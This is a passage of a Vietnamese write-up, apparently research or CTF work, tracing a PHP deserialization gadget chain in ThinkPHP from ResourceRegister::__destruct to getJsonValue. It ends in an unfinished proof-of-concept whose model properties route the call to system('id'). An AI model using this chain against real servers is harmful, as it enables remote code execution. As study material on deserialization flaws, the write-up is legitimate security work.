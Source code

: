 Code sẽ kiểm tra một số điều kiện với `$this->withAttr` và `$this->json`, tuy nhiên 2 biến này ta có thể control nên không vấn đề gì, nếu thỏa thì code sẽ gọi đến `getJsonValue($fieldName, $value)`
```php
    protected function getJsonValue(string $name, $value)
    {
        if (is_null($value)) {
            return $value;
        }

        foreach ($this->withAttr[$name] as $key => $closure) {
            if ($this->jsonAssoc) {
                $value[$key] = $closure($value[$key] ?? '', $value); 
            } else {
                $value->$key = $closure($value->$key ?? '', $value);
            }
        }
        
        return $value;
    }
```
Đến đây đã là điểm cuối của chain, có thể thấy khá rõ ràng `$value[$key]` được gán giá trị là return value của một hàm. Trong đó mình có thể tùy chỉnh `$closure` cũng như `$value[$key]` để có thể gọi hàm và param theo ý mình.

### Tổng hợp lại gadget chain
`ResourceRegister::__destruct()` -> `ResourceRegister::register()`
-> `DbManager::__call()` -> `DbManager::connect()` -> `DbManager::instance($name, $force)` -> `DbManager::createConnection($name)`
-> `Memcached::__construct()`
-> `Models::__toString()` -> `Models::toJson()` -> `Models::toArray()`
-> `Models::getAttr($key)` -> `Models::getValue($name, $value, $relation)` -> `Models::getJsonValue($fieldName, $value)`


- Có thể trigger một function nguy hiểm khi so sánh object với string (`__toString()`)
- Có thể mở rộng code để tìm kiếm khi gọi đến một function không được định nghĩa (`__call()`)
:::details Code
```php
<?php

namespace think\model;
use think\Model;
class Pivot extends Model {}

namespace think;
abstract class Model {
    protected $data = [
        "dox" => ["id"]
    ];
    protected $json = ["dox"];
    protected $withAttr = [
        "dox" => ["system"]
    ];
    protected $jsonAssoc = true;
}

use think\model\Pivot;
class DbManager {
    protected $config = [];

    public function __construct() {
        $this->config["default"] = "domdom";
        $this->config["connections"] = [
                "domdom" => [
                    "type" => "\\think\\cache\\driver\\Memcached",
```